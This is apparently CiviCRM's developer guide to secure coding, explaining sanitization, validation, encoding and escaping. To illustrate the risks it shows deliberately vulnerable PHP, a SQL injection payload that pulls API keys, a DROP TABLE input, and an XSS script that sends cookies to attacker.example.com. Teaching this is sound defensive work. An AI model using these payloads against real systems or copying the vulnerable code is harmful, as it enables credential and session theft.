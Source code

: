# Secure Coding Standards

## Introduction

CiviCRM maintains a number of standard practices which help ensure that CiviCRM is as secure as possible. This chapter will aim to help give developers guidance on the best way to write code for CiviCRM core and Extensions etc in a secure way. 

## Inputs and outputs

Like any large application, CiviCRM has many inputs and many outputs &mdash; and for adequate security, it must ensure that all data which flows from untrusted inputs to sensitive outputs receives *sanitizing* at some point along the way to protect against attacks.

![Inputs vs outputs diagram](/img/security-inputs-and-outputs.svg)

### Bad example

Consider the following PHP code:

```php
$contactId = $_GET['cid']; // Untrusted input
$sql = "
 SELECT display_name
 FROM civicrm_contact
 WHERE id = $contactID;
";
$query = CRM_Core_DAO::executeQuery($query); // Sensitive output
```

This is bad because because a user can send the following string for the `cid` parameter:

```text
0 UNION SELECT api_key FROM civicrm_contact WHERE id = 4
```

With this attack, the response page would display the API key (for any contact the attacker chooses) anywhere the page would normally display the contact's name. This is an information disclosure vulnerability.

!!! note
    You might think that an input like ``0; DROP TABLE `civicrm_contact` `` would present an [even more serious a vulnerability](https://xkcd.com/327/), but fortunately CiviCRM does not allow [query stacking](http://www.sqlinjection.net/stacked-queries/) which means `executeQuery()` can only execute one query at a time.

### An improvement using sanitizing

In order to fix this security vulnerability, we need to sanitize either the input or output (or both!) as follows:

```php
$contactId = CRM_Utils_Request::retrieve(
  'cid',
  'Positive' // <-- Input sanitizing
);
$sql = "
  SELECT display_name
  FROM civicrm_contact
  WHERE contact_id = %1;
";
$displayName = CRM_Core_DAO::executeQuery($query, array(
  1 => array($contactId, 'Integer'), // <-- Output sanitizing
));
```

Now, users will only be able to send integers in, and CiviCRM will only be able to send integers out. This is obviously a simplified example, but it illustrates the concepts of inputs, outputs, and sanitizing.


## Sanitization methods

Sanitizing (also sometimes generally called "**escaping**") refers the process of cleaning (or rejecting) data to protect against attacks.

### Validation

The most primitive way to sanitize untrusted data (as in the example above) is to throw an error when it does not conform to the expected format. This works well for data inputs which are of known (and simple) types, but can be much more difficult (and less effective) when used for *outputs* or complex data types.

### Encoding (aka "escaping") {:#encoding}

Encoding alters the untrusted data to suit a *specific output*.

For example, consider the following Smarty code:

```html
<div class="email">{$emailAddress}</div>
```

This works fine with an input of `foo@example.org`. But a string like `<script>window.location='http://attacker.example.com/?cookie='+document.cookie</script>` would present an [XSS](https://excess-xss.com/) vulnerability. If loaded in a victim's browser, this string would send the victim's cookies to the attacker's website and allow the attacker to masquerade as the user.

Using validation to reject email addresses characters like `<` or `>` would prevent the attack, but it would also prevent us from displaying email addresses like `Foo Bar <foo@example.org>`.

By *encoding* the data (for HTML), we change `Foo Bar <foo@example.org>` to `Foo Bar &lt;foo@example.org&gt;`. This prevents the attack and allows us to display any characters we wish.

!!! important
    Encoding is specific to output mechanisms. Data embedded within HTML must be encoded differently from data embedded in an SQL query or a shell command.

### Purification

In rare cases such as user-editable rich text fields, CiviCRM cannot use validation or encoding to protect against attacks because the same characters used in attacks are also necessary for presentation. For these cases, CiviCRM uses a 3rd-party library called [HTML Purifier](http://htmlpurifier.org/) which employs sophisticated techniques to [remove XSS](http://htmlpurifier.org/live/smoketests/xssAttacks.php) from HTML strings.


## Escape on Input v Escape on Output

Escaping on input means that developers ensure that every single input from their Interface(s) are properly escaped before passing them into the database. This has a major issue for an application like CiviCRM because there are too many various interfaces to try and do proper escape on Input. There is also a risk that when you escape on input you can dramatically change the value and strip out some data through the escaping process.  Where as escaping on output means you have to cover all your various interfaces, ensure that all of them properly and safely account for the possibility that there maybe unsafe data in your database and sanitise it for safe viewing / usage in for example HTML or AngularJS templating. 

CiviCRM has long been confused and staggered in regards to whether to escape on output or escape on input. CiviCRM are slowly moving towards escaping on output for most purposes however there is still a need for escaping on input when dealing with writing queries against the database. At present the simplest way to escape on output is to use inbuilt escape functions within our templating engine Smarty. For example:

```
<a  href="{$item.url}" title="{$item.title|escape:'html'}">
```

This will ensure that the variable title within the item key when generating a list of recently viewed items won't have any Cross Site Scripting as it will be escaped for use within HTML. For more information on the types of escaping you can do with Smarty see the [Smarty Documentation](https://www.smarty.net/docsv2/en/language.modifier.escape)

However sometimes to escape on output you need to ensure that because of the complex nature of the variable that the variable is properly escaped when passed to Smarty. For example, when building a json encoded blob of data for use in an contribution form it was necessary to escape before passing onto the Smarty Template.

```php
$form->assign('submittedOnBehalfInfo', json_encode(str_replace('"', '\"', $form->_submitValues['onbehalf']), JSON_HEX_APOS));
```

For AngularJS templates, developers should consult the AngularJS [$sanitize documentation](https://docs.angularjs.org/api/ngSanitize/service/$sanitize).

## Handling Request variables

Through the CiviCRM code base you will find that there are a number of times where CiviCRM takes variables passed to it through the URL e.g. `?cid=1234` or `?id=1234`. CiviCRM has put in place some inbuilt functions that help to ensure that no dangerous values are able to be passed through.

```php
$cid = CRM_Utils_Request::retrieve('cid', 'Positive', $this);
$id = CRM_Utils_Request::retrieve('id', 'Positive', $this, FALSE, NULL, 'GET');
$angPage = CRM_Utils_Request::retrieve('angPage', 'String', $this);
if (!preg_match(':^[a-zA-Z0-9\-_/]+$:', $angPage)) {
  CRM_Core_Error::fatal('Malformed return URL');
}
$backUrl = CRM_Utils_System::url('civicrm/a/#/' . $angPage);
```

What you will notice above is that one of the key things there is the usage of `CRM_Utils_Request::retrieve` This function takes in whatever request variables have been passed to the page or form etc, gets the key requested out of it, then ensures that it meets a specific type of value. The acceptable types can be found in [CRM_Utils_Type::validate](https://github.com/civicrm/civicrm-core/blob/60050425316acb3726305d1c34908074cde124c7/CRM/Utils/Type.php#L378). 

## Passing variables into SQL

Developers should ensure that whenever they pass variables into SQL statements that they do it in the proper standard. More information can be found in the [SQL Coding Standards](/standards/sql/).

## References

 - Escape on Input v Escape on output [Stack exchange](https://security.stackexchange.com/questions/95325/input-sanitization-vs-output-sanitization) [Stack Overflow](https://stackoverflow.com/questions/11253532/html-xss-escape-on-input-vs-output).

